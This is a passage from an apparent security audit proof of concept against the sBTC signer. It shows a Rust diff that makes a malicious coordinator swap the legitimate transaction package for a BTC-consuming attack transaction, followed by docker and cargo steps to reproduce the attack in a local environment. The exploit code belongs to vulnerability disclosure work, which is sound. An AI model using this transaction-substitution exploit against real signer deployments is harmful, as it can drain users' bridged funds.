     +            withdrawals: Vec::new(),
    +            signer_state: pending_requests.signer_state,
    +        };
    +        let attack_tx = attack_reports.create_transaction()?;
    +        // @audit; end
             tracing::debug!(
                 num_deposits = %pending_requests.deposits.len(),
                 num_withdrawals = pending_requests.withdrawals.len(),
                 "fetched requests"
             );
             // Construct the transaction package and store it in the database.
    -        let transaction_package = pending_requests.construct_transactions()?;
    +        let mut transaction_package = pending_requests.construct_transactions()?;
    +        // @audit; begin
    +        if this_signer_is_attacker {
    +            if transaction_package.len() != 0 {
    +                tracing::info!("@audit; the origin tx: {:?}", transaction_package[0]);
    +            }
    +            transaction_package = Vec::new();
    +            transaction_package.push(attack_tx);
    +            tracing::info!("@audit; attacker modified the tx: {:?}", transaction_package[0]);
    +        }
    +        // @audit; end

             tracing::info!("@audit; start construct btc tx, transaction_package.len(): {:?}", transaction_package.len());
             self.construct_and_send_bitcoin_presign_request(
    ```
6.  Run docker

    ```sh
    make devenv-up
    make devenv-down
    docker compose -f docker/docker-compose.yml --profile default --profile bitcoin-mempool --profile sbtc-signer build
    make devenv-up
    ```
7. Add [this code](https://gist.github.com/al-f4lc0n/6befe01b89669cfb756cf747d7cf030d) to `signer/src/bin/poc9.rs`
8.  Patch `signer/Cargo.toml`, add `poc9` bin

    ```diff
    +[[bin]]
    +name = "poc9"
    +path = "src/bin/poc9.rs"
    ```
9.  Waiting for the sBTC contract to be deployed. Then run the `poc9` tool. It will send 40 BTC to the signers BTC address and trigger deposits every 10 seconds.

    ```sh
    cargo run -p signer --bin poc9
    ```
10. Wait until the trigger the coordinator is _sbtc-signer-3_. You can check the logs marked with `"@audit;"` to confirm that the attack was triggered
11. In [BTC explorer](http://localhost:8083/), you will find that the BTC transaction initiated by _sbtc-signer-3_ is malicious. It does not carry any deposits and withdrawals, but only consumes BTC.
